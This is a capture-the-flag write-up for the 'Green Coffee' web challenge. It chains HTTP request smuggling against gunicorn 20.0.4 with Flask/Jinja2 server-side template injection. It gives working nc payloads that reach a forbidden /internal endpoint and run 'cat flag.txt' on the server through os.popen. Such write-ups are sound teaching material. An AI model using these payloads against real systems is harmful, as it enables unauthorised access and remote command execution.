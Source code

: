 <span id="-web"></span><span id="web" class="tag">web</span> <span
id="-smuggling"></span><span id="smuggling" class="tag">smuggling</span>
<span id="-ssti"></span><span id="ssti" class="tag">ssti</span>

# Green Coffee

## Challenge

My n00b friend built this web application for his coffee business. Can
you help me pwn it?

<span id="Note"></span>**Note**: Enumeration is allowed, but don't use
very large wordlists.

<http://34.76.206.46:10014>

## Solution

The link hosts a simple page with nothing useful on it.

![home.png](img/home.png)

Since the description says we're allowed to enumerate, that's what I
did. I found out that any endpoint that matches `/internal.*` seems to
return the following page.

    200      GET      484l     1788w    26101c http://34.76.206.46:10014/
    200      GET        8l       17w      163c http://34.76.206.46:10014/internal
    200      GET        8l       17w      163c http://34.76.206.46:10014/forbidden
    200      GET        8l       17w      163c http://34.76.206.46:10014/internal_data
    200      GET        8l       17w      163c http://34.76.206.46:10014/internals
    200      GET        8l       17w      163c http://34.76.206.46:10014/internal_error

![forbidden.png](img/forbidden.png)

Cool, so it seems we have to somehow bypass this. After messing around
with request headers and getting nowhere, I noticed the following
response header.

    server: gunicorn/20.0.4

I then decided to search when this version of `gunicorn` was released
and found this
[changelog](https://docs.gunicorn.org/en/20.0.4/news.html) from 2019.
Why would this chall be using a version of `gunicorn` from 2019?
Probably because it's vulnerable to something, which turned out to be
[request
smuggling](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/).

I changed the command in the previous link and managed to access
`/internal`.

    echo -en "GET / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 71\r\nSec-Websocket-Key1: x\r\n\r\nxxxxxxxxGET /internal HTTP/1.1\r\nHost: localhost\r\nContent-Length: 35\r\n\r\nGET / HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc 34.76.206.46 10014

    <snip>
    HTTP/1.1 200 OK
    server: gunicorn/20.0.4
    date: Sun, 23 Oct 2022 16:37:28 GMT
    content-type: text/html; charset=utf-8
    content-length: 185

    <html>
        <head>
            <title>Internal Portal</title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>GET err: Missing username parameter</h3>
        </body>
    </html>

It seems we need a `username` parameter, so I went ahead and tried
`?username=admin`

    <html>
        <head>
            <title>
                Internal Portal
            </title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>Welcome, admin</h3>
        </body>
    </html>

Huh, that's not a flag. The parameter got reflected on the page, so
maybe we have XSS? I tried `?username=<s>hello</s>`.

    <html>
        <head>
            <title>
                Internal Portal
            </title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>Welcome, &lt;s&gt;hello&lt;/s&gt;</h3>
        </body>
    </html>

Ok, I guess we don't have XSS. After trying to bypass the filter for a
while, I remembered that this is a Flask application. Flask uses
templates, so maybe SSTI could work? It'd be weird, since SSTI 99% of
the time is also XSS, but whatever. I tried `?username={{7*7}}`.

    <html>
        <head>
            <title>
                Internal Portal
            </title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>Welcome, 49</h3>
        </body>
    </html>

Alright, nevermind, we got SSTI. I then guessed the flag was in
`flag.txt` and used the following payload to get it.

    echo -en "GET / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 154\r\nSec-Websocket-Key1: x\r\n\r\nxxxxxxxxGET /internal?username=%7B%7Bcycler.__init__.__globals__.os.popen('cat%20flag.txt').read()%7D%7D HTTP/1.1\r\nHost: localhost\r\nContent-Length: 35\r\n\r\nGET / HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc 34.76.206.46 10014

    <html>
        <head>
            <title>
                Internal Portal
            </title>
        </head>
        <body>
            <h1>Internal Portal</h1>
            <h3>Welcome, jadeCTF{smuggl3r_smuggl1ng_p4yl04ddd!}</h3>
        </body>
    </html>

Flag: `jadeCTF{smuggl3r_smuggl1ng_p4yl04ddd!}`
